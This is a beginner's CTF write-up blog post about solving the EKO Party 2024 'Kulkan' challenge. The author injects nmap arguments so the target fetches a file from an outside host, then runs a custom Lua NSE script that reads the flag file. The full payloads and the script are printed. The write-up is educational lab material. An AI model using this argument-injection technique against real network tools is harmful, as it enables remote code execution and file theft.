 +++
date = '2024-12-02T17:11:00-03:00'
draft = false
title = 'Kulkan Writeup - EKO Party CTF 2024'
tags = ['writeup', 'ctf', 'command-injection']
+++

Hi! I hope this finds you well on the other side of the screen :) 
TLDR; if you just want to focus on the write-up, you can skip the context section ;) 

## Context

This is my first write up, and also my first post on my site, so I would like to provide some context. My name is Julian, I work as a cybersecurity engineer at a payments startup. I have always enjoyed offensive cybersecurity and penetration testing, but never really focused on it until earlier this year. And as part of this journey, I also started playing CTFs.

This month I had the opportunity to help at the Eko Party Cyber Security Conference in Buenos Aires, Argentina (where I live). It's the biggest cybersecurity conference in Latin America.
The conference was amazing, there were a lot of great talks and the energy of the people there was amazing. I really enjoyed it.
Like almost every cybersec conference, it had a CTF! So of course I signed up. I signed up as a team with my coworkers, but they couldn't make it to the conference, and since they were working while I was there, they didn't have a lot of time to participate in the CTF remotely. 
So since I was on my own and spent most of the day at the conference bouncing between amazing talks, I didn't have a lot of time to focus on the CTF. Anyway, I really enjoyed one of the challenges, so I thought it was a great excuse to write my first post. So here we are.

As I said, I'm just starting out on the "offensive" side of cybersecurity, so I'm writing this as I'd like to be explained if I were on the other side of the screen. Although I have no doubt that anyone reading it, regardless of their expertise, will find something useful here.

## Hands on

This is the challenge. We have a web application where our task is "see if you can find a way to **cat** the flag". They give us a URL of an instancer that gives us 2 minutes to find the flag, but for testing and finding the vulnerability, they give us a zip with the source code.

![](/kulkan1.png)

This is what the instancer looks like:

![](/kulkan2.png)

The downloaded code has a python application and a docker file. So I build the docker image, run it, and when we access the provided URL we find a web application like this:

![](/kulkan3.png)

It asks for a target (hostname/IP) and we can choose a command: ping, dig or nmap.

So it's kind of obvious that we should try to find some kind of command injection here to cat the flag.

I started with the "ping" and "dig" commands. I tried a bunch of different command injection payloads from [Hacktricks](https://book.hacktricks.xyz/pentesting-web/command-injection), but none of them worked. I also tried some of these payloads with the nmap command, also with no result. 

At this point I started to think it wasn't the usual command injection, so I started reading documentation about the options and flags of these commands. 

Meanwhile, being a bit curious, I opened the python file running the server for the challenge and found that the code used the `shlex.split()` method to sanitize the command before executing it. 
After some research, I found out that this is a very safe way to execute commands through Python. 
I'm a Python developer, so this ended up being useful to learn. And it also confirmed my theory that this was not a common command injection vulnerability. 
(Some may think it was cheating to see the code since it was supposed to be a black-box challenge, but in my defense, looking at the code only confirmed the theory I already had).

Did some research on the options and flags for each command. Didn't find anything useful for `ping` and `dig`. When I started to do some research for the `nmap` command, I remembered the `--script` flag that allows us to run some custom scripts with nmap on the target host. So I thought maybe there was already a script that could help me. 

After reading the [Nmap Scripts Doc](https://nmap.org/nsedoc/scripts/) I found that the [http-fetch](https://nmap.org/nsedoc/scripts/http-fetch.html) script might be useful.
This script allows us to retrieve files from servers. 

The first thing I did was try to use this script from the challenge web application. 
Since I was running it locally, I started a Python http server locally:

![](/kulkan4.png)

and started ngrok:
`ngrok http 127.0.0.1:9000`.

And executed the `nmap` command with the payload:
```
--script http-fetch --script-args http-fetch.url=test.txt,http-fetch.destination=/tmp/test e52d-181-164-0-217.ngrok-free.app 
```

And it worked!

![](/kulkan5.png)

But when I opened the downloaded file...

![](/kulkan6.png)

It wasn't what I expected ("this is a test file"). Instead, it downloaded the ngrok warning page. 
So, looking for alternatives, I ended up hosting the file in a public repo on Github, and it worked as expected!

Ok, so now we can upload files to the server... but what can we do with them? 
After some research, re-reading the [Nmap Scripts Doc] (https://nmap.org/nsedoc/scripts/), I didn't find anything useful...
But after a while I had an idea... I can write my own Nmap NSE script to catch the flag!

One important thing to know is whether it is possible to run nse scripts that are not stored in the nmap scripts folder. And yes, it is:

![](/kulkan7.png)

So I started reading the [Nmap script writing tutorial](https://nmap.org/book/nse-tutorial.html) and with that and a lot of help from ChatGPT I ended up with this NSE script:

``` lua
-- Define the description and category
description = [[
  This script reads the content of a file called 'flag.txt' in the current directory.
]]
categories = {"discovery", "intrusive"}

-- Import necessary libraries
local stdnse = require("stdnse")

-- Define the rule function to specify when this script should run
hostrule = function(host)
  return true  -- Always run on specified target
end

-- Define the main action function
action = function(host)
  -- Execute a command to read the file content
  local file = io.popen("cat flag.txt", "r")
  if not file then
    return "Error: Could not read file"
  end

  -- Read file content
  local content = file:read("*a")
  file:close()

  if content then
    return "flag.txt content:\n" .. content
  else
    return "Error: No content found in flag.txt"
  end
end
```

And hosted it in the Github repository I created earlier.

So now we have everything ready, we just need to try it out.

First, I downloaded the nse script into the target as we did before.

![](/kulkan8.png)

In the scan result we can get the full location where it was downloaded. So with the full location of our nse script we can now run it:
```
nmap www.google.com --script /tmp/flag-reader/185.199.111.133/443/jstrah00/expose-files/master/%2fjstrah00%2fexpose-files%2fmaster%2fflag-reader.nse
```
(when running it in the web application, we omit the `nmap`)

And it worked!

![](/kulkan9.png)

So now we replicate this in the "production environment" and we have our flag :)

## Conclusion
This was a really fun challenge. In my opinion it is a bit hard to be classified as easy as it is. 
As a person just starting out in CTFs, it was the first time I had to build a "custom" script to solve one, and I really liked the challenge. 
I learned a lot from it, especially these key points:
- Using `shlex.split()` is a great way to safely execute commands in Python.
- Ngrok is not always the best way to expose files. 
- Now I can write my own custom NSE scripts!
- Nmap is POWERFUL.

So that was it! I hope you enjoyed reading this and learned something new.
If you have any questions, comments, or anything else you want to discuss, feel free to contact me!

Thanks for reading! Have a nice day!

